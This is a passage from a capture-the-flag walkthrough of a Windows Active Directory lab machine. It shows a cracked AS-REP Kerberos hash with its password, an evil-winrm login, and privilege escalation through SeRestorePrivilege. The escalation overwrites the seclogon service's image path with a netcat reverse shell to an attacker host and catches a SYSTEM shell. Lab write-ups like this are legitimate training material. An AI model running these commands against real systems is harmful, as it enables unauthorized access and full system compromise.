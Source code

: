 And the hash manages to crack to: 

```
$krb5asrep$23$jorden@MEGACORP.LOCAL:386bc264be355689e24f3b3ef2f65358$4a360543309d1dac3a6d38f997e40faf4320af7d06fa5694592c366b9199894
ff538152703fe1990901fab235ea8a579d8ec86b7cefe89e47b21917f06050c2679339203a14e64003dffdc8714ae823b9754002445b4cdef75134ed5af6697d19ee
95d00301a5c48f49c1cb91830351e57fcb2c42b6251083326e0c134032e2290bee5b4346f56db469f50ea3bbf041b515ebe9b7d99124298d20ae13f7551c4928a650
1e7d8f3ed189afdf7ea084dbdf6cf743253d3817842effa8722f68e542b4c3cc7f0f150bcfa0a5f17200f9e6f6f89c0190fdd88d3555856a8a5097368482af922205
4fb6739dc3a56acb3307f:rainforest786
```

And we can evil-winrm our way in. Remember that jorden is in the Server Operators group, so we have the following privileges.

```
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled

```

There are many ways to go about this. My personal choice is leverage the SeRestore privilege only; users with this privilege have write access to any file and registry keys on the system. All users can start the seclogon service, so we can overwrite the registry key specifying its image path, and then start it for a shell. Since this will prompt us to confirm if we want to overwrite its current image path, we need a normal reverse shell. I'll call netcat to gain a reverse shell, overwrite the key, then start the service and listen to catch a SYSTEM shell.

```
*Evil-WinRM* PS C:\Users\jorden\Documents> \bruh\nc64.exe -e cmd.exe 10.10.16.2 4444

C:\Users\jorden\Documents> reg add hklm\system\currentcontrolset\services\seclogon /v imagepath /t reg_sz /d "\bruh\nc64.exe -e cmd.exe 10.10.16.2 4444"

Value imagepath exists, overwrite(Yes/No)? y
The operation completed successfully.

C:\Users\jorden\Documents>sc start seclogon

┌──(root💀kali)-[/home/kali]
└─# rlwrap nc -nvlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:51921.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
nt authority\system
```